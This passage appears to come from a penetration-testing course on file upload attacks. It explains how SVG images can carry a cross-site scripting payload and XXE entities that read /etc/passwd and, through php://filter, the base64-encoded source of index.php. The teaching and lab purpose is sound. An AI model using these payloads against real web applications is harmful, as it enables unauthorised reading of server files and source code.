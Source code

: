 Finally, XSS attacks can also be carried with `SVG` images, along with several other attacks. `Scalable Vector Graphics (SVG)` images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to `HTB.svg`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>

```

Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.

For more about XSS, you may refer to the [Cross-Site Scripting (XSS)](/module/details/103) module.

**Exercise:** Try the above attacks with the exercise at the end of this section, and see whether the XSS payload gets triggered and displays the alert.

* * *

## XXE

Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of ( `/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of ( `/etc/passwd`) printed on the page or shown in the page source. Similarly, if the web application allows the upload of `XML` documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

While reading systems files like `/etc/passwd` can be very useful for server enumeration, it can have an even more significant benefit for web penetration testing, as it allows us to read the web application's source files. Access to the source code will enable us to find more vulnerabilities to exploit within the web application through Whitebox Penetration Testing. For File Upload exploitation, it may allow us to `locate the upload directory, identify allowed extensions, or find the file naming scheme`, which may become handy for further exploitation.

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>

```
